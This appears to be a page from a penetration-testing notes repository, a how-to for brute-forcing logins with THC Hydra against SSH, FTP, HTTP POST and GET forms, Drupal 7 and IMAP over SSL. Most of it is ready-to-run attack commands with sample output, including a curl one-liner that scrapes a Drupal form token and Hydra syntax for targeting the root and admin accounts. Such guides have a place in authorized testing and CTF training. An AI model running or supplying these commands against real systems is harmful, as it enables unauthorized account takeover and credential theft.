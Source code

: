 # THC Hydra
[THC Hydra](https://sectools.org/tool/hydra/) is a tool commonly used to brute force user credentials. Always remember that you are at the mercy of your wordlists during these types of attacks. The longer, more accurate/finely-tuned wordlist = the fatser you get positive results.
## SSH
To brute force SSH credentials, use the following command. This will brute force the credentials for the `root` user.

```
root@kali:~# hydra -l root -P /wordlists/rockyou.txt (target ip address) ssh
[WARNING] Many SSH configurations limit the number of parallel tasks, it is \
recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344423 login tries (l:1/p:0), ~14344423 tries per task
[DATA] attacking ssh://(target ip address):22/
[STATUS] 257.00 tries/min, 257 tries in 00:00h, 0 to do in 01:00h, 14344167 active
[STATUS] 245.00 tries/min, 735 tries in 00:00h, 0 to do in 03:00h, 14343689 active
[STATUS] 231.14 tries/min, 1618 tries in 00:00h, 0 to do in 07:00h, 14342806 active
```

## FTP
To brute for an FTP service with a known username try the following command.

`hydra -l (UID) -P /path/to/500-worst-passwords.txt (TARGET IP ADDRESS) ftp`

## HTTP
To brute for an HTTP form, try the following syntax with `hydra`:
### HTTP POST Form
`hydra -l (USERNAME) -P /path/to/wordlist.txt (TARGET IP ADDRESS) http-post-form "/URI/path/to/login.php:(HTML FORM USERNAME ATTRIBUTE)=^USER^&(HTML FORM PASSWORD ATTRIBUTE)=^PASS^&Login=Login:(FAILED LOGIN MESSAGE)"`

Where `HTML FORM USERNAME ATTRIBUTE` is the HTML form username "name" attribute. E.g.: `<input type=text name="username" />` In that example, the `username` value for the attribute `name` is what would be used. Same gfoes for the password: `<input type=password name="passwd" />` In that exmaple `passwd` would be used to construct the command as it is the value of the password input's name attribute. The command would then look something like so:

  ... `:username=^USER^&passwd=^PASS^` ...
  
  `hydra` will fill in the `^USER^` and `^PASS^` values upon every single HTTP request with each username and password that you mean to test.
### HTTP GET Form
The GET parameters, that you seein the URL bar, are rarely used for HTTP authentication. This is because developers do not want to make your username and password "bookmarkable." Some cases in CTF, penetratiuon testing, etc, beg to differ. To perform a GET request for a password brute force, you must understand there are some caveats. 
1. You cannot use certain characters in your password. 
This is because of the URL/HTTP transport encoding. FOr instance, sometimes a "#" in a password from `rockyou.txt` will cause an HTTP 400 Bad Request repose from the server.

Let's take a look at an HTTP GET login password brute force attempt using THC-Hydra,
```
root@attacker-machine:~# hydra -l admin -P /pwnt/passwords/wordlists/rockyou.txt (TARGET IP ADDRESS) http-get-form "/login.php:username=^USER^&password=^PASS^&Login=Login:Please Login|Bad Request"
```
As you can see, I used a pipe "|" to say "OR" to ignore Error 400 Bad Request responses form the target server.

### Drupal 7
In Drupal 7 we need to first get the form_build_id from the `./user/` directory as so,
```
root@wnl8:~# curl -s http://drupal.site/user/ | grep form_build_id | cut -d "\"" -f 6
```
Alternatively, if this does not provide a string, like, `form-uQ6n4rbHr99R2XZirfsxaa3rPmV8xpZjXWsa3-G-8Nw` for example, then simply hit CTRL+U on the `./user/` page and search for "form_build_id"
Next, we can use Hydra on Drupal as so,
```
hydra -l admin -P /wordlists/rockyou.txt (TARGET DRUPAL IP) http-form-post "/?q=user/:name=admin&pass=^PASS^&form_id=user_login&form_build_id=form-uQ6n4rbHr99R2XZirfsxaa3rPmV8xpZjXWsa3-G-8Nw:Sorry
```
And as you see, I have inserted the Drupal form ID and I am attempting to brute force the `admin` user.

## SMTP (IMAP SSL)
To brute force SMTP via SSL Authentication, you must first enumerate which port ssl/imap is runniing on using `nmap`. In our case, we found port 993 as,

```
993/tcp  open  ssl/imap   Dovecot imapd
|_imap-capabilities: ID more IDLE have IMAP4rev1 ENABLE LOGIN-REFERRALS SASL-IR LITERAL+ listed capabilities Pre-login post-login AUTH=PLAINA0001 OK
```

We also need to enumerate a valid username. We can hlearn how to do so from the [SMTP User Enumeration Module](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Enumeration/smtp-user-enumeration.md). After gathering these two pieces of information, we can use `hydra` to try to brute force the authentication like so:

`root@kali:~# hydra (TARGET IP ADDRESS) smtp -l (USERNAME) -P /path/to/wordlist.txt -V -s (TARGET PORT)`
